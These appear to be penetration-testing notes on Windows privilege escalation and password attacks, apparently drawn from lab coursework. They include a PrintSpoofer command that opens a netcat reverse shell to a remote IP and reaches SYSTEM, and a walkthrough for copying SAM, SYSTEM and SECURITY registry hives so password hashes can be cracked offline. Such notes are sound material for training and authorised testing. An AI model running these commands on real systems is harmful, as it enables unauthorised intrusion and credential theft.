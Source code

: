 ## delete


# Vulnerabilities
## Rogue Potato

## Juicy/Lovely Potato

## [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
Service Account (IIS/MSSQL) got privilge SeImpersonatePrivilege 

Create a reverse shell:
```powershell
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK

Netcat listener:

C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```





# Passwords Attacks
## Attacking SAM
With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline. Doing this offline will ensure we can continue to attempt our attacks without maintaining an active session with a target. Let's walk through this process together using a target host. Feel free to follow along by spawning the target box in this section.
Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:
Registry Hive 	Description
hklm\sam 	Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.
hklm\system 	Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.
hklm\security 	Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.
